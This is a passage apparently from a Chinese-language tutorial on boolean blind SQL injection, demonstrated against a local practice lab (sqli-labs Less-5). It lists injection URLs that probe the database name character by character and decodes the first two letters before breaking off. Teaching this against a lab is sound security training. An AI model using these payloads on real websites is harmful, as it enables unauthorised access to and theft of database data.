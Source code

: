 ![](./assets/20250210/04879c659cc5481896664e3ad037b939.png)

### 2.如何进行布尔盲注？

注入流程：

![](./assets/20250210/811741b772a740789a41c66aaac2bb7c.png)

### 3.靶场案例演示：

1.** 猜解数据库的名字**

`http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>115--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>116--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),2,1))=101--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),3,1))=99--+  正常`

如此就得到了

第一个字符的ASCII码为115解码出来为“s”

第二个字符的ASCII码为101解码出来为“e”
